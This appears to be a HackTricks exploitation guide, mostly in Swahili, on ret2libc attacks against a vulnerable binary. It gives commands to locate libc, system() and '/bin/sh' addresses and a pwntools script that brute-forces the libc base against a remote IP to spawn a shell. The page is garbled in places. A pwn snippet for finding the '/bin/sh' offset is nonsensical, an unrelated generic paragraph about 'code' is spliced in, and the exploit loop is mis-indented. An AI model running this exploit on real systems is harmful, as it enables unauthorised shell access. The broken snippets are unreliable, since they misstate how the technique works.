 <details>

<summary><strong>Jifunze kuhusu kudukua AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako inatangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MPANGO WA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**swag rasmi ya PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**The PEASS Family**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa kipekee wa [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu zako za kudukua kwa kuwasilisha PRs kwenye** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>


**Ikiwa umepata faili ya kudukuliwa na unafikiri unaweza kuitumia Ret2Lib kuikexploit, hapa kuna hatua za msingi unazoweza kufuata.**

# Ikiwa uko **ndani** ya **mwenyeji**

## Unaweza kupata **anwani ya lib**c
```bash
ldd /path/to/executable | grep libc.so.6 #Address (if ASLR, then this change every time)
```
Ikiwa unataka kuhakiki ikiwa ASLR inabadilisha anwani ya libc, unaweza kufanya hivi:
```bash
for i in `seq 0 20`; do ldd <Ejecutable> | grep libc; done
```
## Pata kigezo cha kazi ya mfumo (system function)

To get the offset of the system function, we can use the `objdump` command to analyze the binary file of the target program. The system function is usually located in the libc library, so we need to find the offset of the system function within the libc library.

1. First, we need to identify the libc library used by the target program. We can do this by running the `ldd` command followed by the path to the target program binary file. For example:

   ```bash
   ldd /path/to/target_program
   ```

   This will display the shared libraries used by the target program, including the libc library.

2. Once we have identified the libc library, we can use the `objdump` command to analyze the libc library file. We need to find the offset of the system function within the libc library. For example:

   ```bash
   objdump -T /path/to/libc.so | grep "system"
   ```

   This command will display the offset of the system function within the libc library.

By obtaining the offset of the system function, we can use it in our exploit to redirect program execution to the system function and execute arbitrary commands.
```bash
readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system
```
## Pata kigezo cha "/bin/sh"

To get the offset of "/bin/sh", we can use the `pwn` library in Python. The `pwn` library provides a function called `p32` that converts an integer to a little-endian byte string. We can use this function to convert the address of "/bin/sh" to a byte string and then search for it in the memory dump.

Here is an example code snippet that demonstrates how to get the offset of "/bin/sh":

```python
from pwn import *

# Create a process to run the vulnerable program
p = process('./vulnerable_program')

# Find the address of "/bin/sh" in memory
bin_sh_address = p32(0x804a030)  # Replace with the actual address of "/bin/sh"

# Search for the address in the memory dump
offset = p.recvuntil(bin_sh_address).count(b'A')

# Print the offset
print(f"Offset of '/bin/sh': {offset}")
```

Replace `0x804a030` with the actual address of "/bin/sh" in your target system. Run the code, and it will print the offset of "/bin/sh" in the memory dump.
```bash
strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh
```
## /proc/\<PID>/maps

Ikiwa mchakato unazalisha **watoto** kila wakati unapozungumza naye (seva ya mtandao), jaribu **kusoma** faili hiyo (labda utahitaji kuwa na ruhusa ya mizizi).

Hapa unaweza kupata **mahali hasa ambapo libc imepakiwa** ndani ya mchakato na **mahali ambapo itapakiwa** kwa kila mtoto wa mchakato.

![](<../../.gitbook/assets/image (95).png>)

Katika kesi hii, imepakiwa katika **0xb75dc000** (Hii itakuwa anwani ya msingi ya libc)

## Kutumia gdb-peda

Pata anwani ya kazi ya **system**, ya kazi ya **exit**, na ya neno **"/bin/sh"** kwa kutumia gdb-peda:
```
p system
p exit
find "/bin/sh"
```
# Kuvuka ASLR

Unaweza kujaribu kuvunja nguvu anwani ya msingi ya libc.
```python
for off in range(0xb7000000, 0xb8000000, 0x1000):
```
# Msimbo

Msimbo ni kipande cha programu ambacho kinaweza kutekelezwa na kompyuta. Msimbo unaweza kuwa na maagizo mbalimbali ambayo kompyuta inafuata ili kufanya kazi fulani. Msimbo unaweza kuandikwa kwa lugha tofauti za programu kama vile C, Python, au Java.

Msimbo unaweza kuwa na makosa au udhaifu ambao unaweza kutumiwa na wadukuzi kuingia kwenye mfumo. Kwa hiyo, ni muhimu kwa wataalamu wa usalama wa kompyuta kuelewa jinsi ya kuchambua na kurekebisha msimbo ili kuzuia mashambulizi.

Katika uwanja wa udukuzi, wadukuzi wanaweza kutumia msimbo wa kudukua mifumo ya kompyuta. Wanaweza kutafuta makosa au udhaifu katika msimbo wa programu na kuitumia kuingia kwenye mfumo. Hii inaweza kuwa hatari kwa sababu wadukuzi wanaweza kuiba data, kuharibu mfumo, au hata kudhibiti mfumo mzima.

Kwa hiyo, ni muhimu kwa wataalamu wa usalama wa kompyuta kujifunza jinsi ya kuchambua na kurekebisha msimbo ili kuzuia mashambulizi ya wadukuzi. Kwa kufanya hivyo, wanaweza kuhakikisha kuwa mifumo ya kompyuta ni salama na salama kutoka kwa mashambulizi ya wadukuzi.
```python
from pwn import *

c = remote('192.168.85.181',20002)
c.recvline()    #Banner

for off in range(0xb7000000, 0xb8000000, 0x1000):
p = ""
p += p32(off + 0x0003cb20) #system
p += "CCCC" #GARBAGE
p += p32(off + 0x001388da) #/bin/sh
payload = 'A'*0x20010 + p
c.send(payload)
c.interactive() #?
```
<details>

<summary><strong>Jifunze kuhusu kudukua AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikionekana katika HackTricks** au **kupakua HackTricks kwa muundo wa PDF** Angalia [**MPANGO WA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**swag rasmi ya PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**The PEASS Family**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu zako za kudukua kwa kuwasilisha PRs kwenye** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
